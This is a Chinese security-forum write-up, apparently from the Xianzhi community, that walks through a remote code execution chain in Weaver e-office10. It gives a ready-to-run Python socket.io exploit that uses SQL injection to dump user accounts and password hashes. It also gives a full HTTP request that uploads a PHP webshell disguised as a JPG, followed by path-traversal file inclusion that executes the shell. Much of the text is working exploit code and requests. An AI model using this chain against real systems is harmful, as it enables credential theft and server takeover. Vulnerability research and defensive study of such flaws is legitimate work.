 

# 泛微 e-office10 远程代码执行漏洞分析 - 先知社区

泛微 e-office10 远程代码执行漏洞分析

- - -

根据微步描述知道是im服务的洞`https://mp.weixin.qq.com/s/4om8iuGpAKWPjEocBB4lKQ`

```plain
2、临时修复方案：

1.使用防护类设备对相关资产进行SQL注入、文件包含等攻击的防护；
2.在确认不影响业务的情况下可临时关闭im服务，或使用网络ACL策略限制im服务的公网访问。
```

[![](assets/1701678462-0f518ff6588e2e68f43c1d326db97f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201145-7722c0bc-8eb0-1.png)

[![](assets/1701678462-6d326128f9ad8637d0722051a06ea575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201149-7956b8fc-8eb0-1.png)

得到nodejs的server路径。没混淆什么的。diff一下

知道是`getPersonalOfflineRecord`的问题

[![](assets/1701678462-fbf02069a388dd929891da90aa859f66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201153-7ba2c934-8eb0-1.png)

socket事件为`outline recordLength`时触发。

[![](assets/1701678462-cc4ab89f40c4c8e1bfdd0f48cda2fbd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201159-7f07bf58-8eb0-1.png)

```plain
loginUserId是query传进来的
```

[![](assets/1701678462-b68e5234dbb3a9a366f13e0422bf4c50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201238-96bef2a6-8eb0-1.png)

```plain
继续跟connectToSocket
```

[![](assets/1701678462-78b9aca7bec32a1d23a26bb2371e82f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201244-9a488824-8eb0-1.png)

这里的`/web`是`websocket`的`namespace`

`outline recordLength`是事件

python 连接websocket 代码如下

有个坑。。。`socketio`报错可能需要装特定版本才能连上。不然会有`OPEN packet not returned by server`报错

`pip install python-engineio==3.14.2 python-socketio==4.6.0`

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')
#发送事件
@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))
#用来接收返回值

sio.connect('http://192.168.0.139:4986?loginUserId=admin&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

现在主要来看`outline recordLength`事件的处理

`personalRecordTableNameArray`为查询`information_schema.tables`中`chat_personal_record`开头的表

chat\_personal\_record开头的表默认只有`chat_personal_record`。需要自己新建账号。聊天几句就会创建`chat_personal_record_1`等。后面有用。

[![](assets/1701678462-29f88253dc37e998bf56327d1d3cc3ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201256-a13d5150-8eb0-1.png)

这里就判断了。数据库中的表是否有`chat_personal_record_0、1、2、3`。如果没有就不会继续执行变量赋值了。下面的所有`sql`都依赖于这

[![](assets/1701678462-b1fc96526343b84884f0d88a39e72a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201301-a4370a72-8eb0-1.png)

之后就是直接带入sql执行了。然后返回值。

[![](assets/1701678462-97852c6435d7fc08fe9c5c6da13a04d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201305-a6839660-8eb0-1.png)

最终exp如下

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')

@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))


sio.connect('http://192.168.0.139:4986?loginUserId=aa",`chat_object`) union select 1,2,3,group_concat(user_accounts,0x7e,password,0x7e) ,5,6,0,8,9,10,11,12 from user%23&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

[![](assets/1701678462-4bded688de7f94162f1d1819bc7fac5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201311-aa160ac4-8eb0-1.png)

这里password是md5(unix)。要解。解不出来就没用。或者还有其他的接口可以直接MD5登录?

登录后之后文件包含利用。长亭之前也发过一个。抓过接口。

```plain
POST /eoffice10/server/public/api/welink/welink-move HTTP/1.1
Host: 192.168.0.139:8010
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.139:8010/eoffice10/client/web/system/user/manage
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvQIRygBK
Content-Length: 8003

------WebKitFormBoundaryvQIRygBK
Content-Disposition: form-data; name="file"; filename="1.phP"
Content-Type: image/png

jpg文件内容+后面<?php xxxx
------WebKitFormBoundaryvQIRygBK--
```

只有内容校验。jpg的。但是直接php不能上传 有过滤

并且上传在attachment目录不能直接访问

至于为啥这里要用phP下面再说

[![](assets/1701678462-30d2fbbf4eac531163ebca637c03e594.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201316-ad545d26-8eb0-1.png)

返回包对应的attachment目录为`attachment\2023\11\29\8de8701f16a64d88f5fda3ad1b3f5375\1.phP`

```plain
HTTP/1.1 200 OK
Date: Wed, 29 Nov 2023 10:14:22 GMT
Server: Apache
Cache-Control: no-cache, private
Connection: close
Content-Type: application/json
Content-Length: 2702

{"status":1,"data":[{"attachmentId":"8de8701f16a64d88f5fda3ad1b3f5375","attachmentName":"1.phP","attachmentThumb":"data:image\/jpg;base64,\/xxxxxxxx","attachmentSize":7841,"attachmentType":"jpg","attachmentMark":1}],"runtime":"0.170"}
```

这里文件上传就搞定了。接着看文件包含。搜`require(.*?)\$`搜到`getArrayFromPhp`

[![](assets/1701678462-508fcdca2babeabe1827713381086411.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201321-b037d00e-8eb0-1.png)

这里看`getLangFileFullPath`的实现和上层调用`$local, $module`是否可控

[![](assets/1701678462-bb1cd475d0e11fd2fd965f24955c0401.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201325-b2a22358-8eb0-1.png)

先看方法实现。`$this->serverLangSuffix`是`.php` 并且`getServerLangFolder`是获取`eoffice10\server\resources`目录。所以只要`$filename`可控。就能`../../`配合1.php文件包含。由于泛微E-office只能Windows下部署(官网试用只有exe。咱也不知道有无Linux版)

[![](assets/1701678462-fa08e1ac750ff89280bc99a368ca880c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201331-b60b76d4-8eb0-1.png)

由于Windows下大小写不分。上传`1.phP`。包含`1.php`可以包含到。。ok接着回头看`getPhpLangArrayByModule`上层调用的`$module`

继续跟进`getServerStaticLangsByModule`

[![](assets/1701678462-545895358f33d5566bfa087dc5d1e0b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201337-b9a45f04-8eb0-1.png)

module可控。并且有定义路由

[![](assets/1701678462-9a8b88f4d07cdfcb26997943d9e43942.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201341-bc033586-8eb0-1.png)

带上登录的Authorization直接文件包含

[![](assets/1701678462-1d386186b50073a279ff59ac761674f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201345-be3fa42e-8eb0-1.png)
